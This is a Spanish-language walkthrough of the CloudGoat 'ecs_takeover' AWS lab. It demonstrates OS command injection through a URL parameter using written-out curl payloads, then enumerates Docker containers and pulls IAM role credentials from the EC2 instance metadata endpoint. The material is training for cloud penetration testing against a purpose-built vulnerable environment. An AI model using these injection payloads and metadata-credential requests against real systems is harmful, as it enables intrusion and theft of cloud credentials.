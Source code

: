 ```yaml
---
description: 'Lab: CloudGoat'
---
```


# ECS\_takeover

## Laboratorio

En este escenario se empieza realizando un pentesting de caja negra contra un aplicativo web alojado en una instancia EC2. Luego de identificar una vulnerabilidad que permite RCE sobre el aplicativo web se abusará del servicio de metadatos de la instancia y del docker. Para posteriormente, comprometer una de las tareas que está corriendo en un cluster al que se tiene acceso por medio de la instancia comprometida.

{% hint style="danger" %}
El desarrollo de este ejercicio puede llegar a consumir recursos económicos dentro de las cuentas de AWS.
{% endhint %}

{% embed url="https://github.com/RhinoSecurityLabs/cloudgoat/tree/master/scenarios/ecs_takeover" %}

<mark style="color:green;">**Objetivo**</mark>: Obtenga acceso al contenedor "bóveda" y recupere la bandera.

### Configuración inicial

Checar instalación de CloudGoad en:

{% content-ref url="./" %}
[.](./)
{% endcontent-ref %}

Lanzar el escenario con:

```bash
./cloudgoat.py create ecs_takeover
```

<figure><img src="../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

### Explotación

Al finalizar la preparación del laboratorio se arroja un sito web: [http://ec2-54-236-32-165.compute-1.amazonaws.com/](http://ec2-54-236-32-165.compute-1.amazonaws.com/) el cual contiene un aplicativo como el siguiente:

<figure><img src="../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

Luego de ingresar una URL válida como www.google.com se identificó que se puede agregar un parámetro URL sobre el enlace original, y además se ve como el aplicativo web incrusta el código HTML sobre el DOM de la página.

<figure><img src="../../../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>

Realizando una inyección de parámetros se observó que el aplicativo responde comandos de sistema operativo:

{% code overflow="wrap" %}
```
curl "http://ec2-54-236-32-165.compute-1.amazonaws.com/?url=%3Bls+-l"
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

Haciendo uso de la vulnerabilidad de code injection se puede observar que el aplicativo está corriendo bajo el usuario de root:

{% code overflow="wrap" %}
```
curl "http://ec2-54-236-32-165.compute-1.amazonaws.com/?url=%3Bwhoami"
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (71).png" alt=""><figcaption></figcaption></figure>

Usando el comando env podemos listas las variables de entorno del sito:

<figure><img src="../../../.gitbook/assets/image (84).png" alt=""><figcaption></figcaption></figure>

Listando las interfaces de red existentes se encontró una interfaz de red docker, lo cual indica el uso de contenedores

```
curl "http://ec2-54-236-32-165.compute-1.amazonaws.com/?url=%3Bip+a+show"
```

<figure><img src="../../../.gitbook/assets/image (87).png" alt=""><figcaption></figcaption></figure>

Listando los contenedores con `docker ps -a` se encontraron los siguientes contenedores:

<figure><img src="../../../.gitbook/assets/image (6) (2).png" alt=""><figcaption></figcaption></figure>

| Contenedor                                                                                 | ID           |
| ------------------------------------------------------------------------------------------ | ------------ |
| ecs-cg-ecs-takeover-ecs\_takeover\_cgidjozev9f9bv-vulnsite-1-vulnsite-bcf8beafe588ccca8a01 | 7bfa57af37b6 |
| ecs-cg-ecs-takeover-ecs\_takeover\_cgidjozev9f9bv-privd-1-privd-a2bfc681b6dcf9d55500       | 64ca7db98975 |
| ecs-agent                                                                                  | aaead8b98f5f |

Se puede generar una rever shell en el sitio y tener mayores capacidades, para fines didácticos solo se va a consumir los metadatos del rol de la instancias ec2 y se procedesa a usar las credenciales de acceso

{% code overflow="wrap" %}
```
curl "http://ec2-54-236-32-165.compute-1.amazonaws.com/?url=%3Bcurl+http://169.254.169.254/latest/meta-data/iam/security-credentials/"
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (86).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```
curl "http://ec2-54-236-32-165.compute-1.amazonaws.com/?url=%3Bcurl+http://169.254.169.254/latest/meta-data/iam/security-credentials/cg-ecs-takeover-ecs_takeover_cgidjozev9f9bv-ecs-agent"
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (5) (2).png" alt=""><figcaption></figcaption></figure>







